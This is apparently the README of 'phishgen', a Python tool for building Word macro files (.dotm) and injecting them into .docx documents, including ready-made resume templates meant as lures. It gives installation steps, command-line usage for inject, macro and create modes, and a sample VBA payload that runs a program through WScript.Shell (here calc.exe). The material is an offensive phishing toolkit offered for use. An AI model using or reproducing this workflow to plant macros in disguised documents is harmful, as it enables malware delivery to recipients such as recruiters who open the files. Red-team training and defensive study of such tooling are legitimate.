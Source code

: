# Phishing generator
`phishgen` is a python tool designed to create macro files, modify and inject them in existing `.docx` files.  


## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
    - [Inject Mode](#inject-mode)
    - [Macro Mode](#macro-mode)
    - [Create Mode](#create-mode)
- [Examples](#examples)
- [Project Structure](#project-structure)
- [Contributing](#contributing)
- [License](#license)

## Features

- **Inject macros**: Inject macros from a `.dotm` file to a `.docx` document (needs to be created from `.dotx` template).
- **Modify macros**: Replace source code of the `.dotm` file using a provided string or external file.
- **Create documents**: Generate Word documents with predefined configurations (`fulldoc`, `empty`, `full`, `macro`).
- **Cross-platform support**: Everything, except modifying macros is cross-platform. For modifying macro-files you need `Windows` and preinstalled `Word` application.
  
## Installation

1. **Clone the Repository**

   ```bash
   git clone https://github.com/yourusername/word-macro-manager.git
   cd word-macro-manager
    ```

# Usage
`phishgen` provides three modes:
## Inject mode
In this mode, `phishgen` will inject .dotm macro in .docx file. 
**Important**! .docx file must be created by template (.dotx file). <br>
Example:
```bash
phishgen inject generated_document.docx macro.dotm -o patched_document.docx
```

## Macro mode
**Important!** This mode is available only on `Windows` systems with `Word` application. <br>
Idea is generating .dotm file with provided source code. Source code can be file (`-f` option) or string (`-s` option). <br>
**Example**: <br>
payload.txt:
```
Dim wsh As Object
Set wsh = CreateObject("WScript.Shell")
wsh.Run "calc.exe"
Set wsh = Nothing
```

```bash
phishgen macro -f payload.txt -o macro.dotm
```
Also source code as string:
```bash
phishgen macro -s "payload" -o macro.dotm
```

## Create mode
Just copies some templates from inner folder to provided filepath. <br>
Modes:
- **fulldoc**: copies `.docx` resume, created by template, ready to injection
- **empty**: copies empty `.dotx` pattern. Needed to create `.docx` document with your content.
- **full**: copies `.dotx` pattern of resume from step 1. You can edit this resume as you wish!
```bash
phishgen create fulldoc -d test_folder/
phishgen create empty -d test_folder/
phishgen create full -d test_folder/
```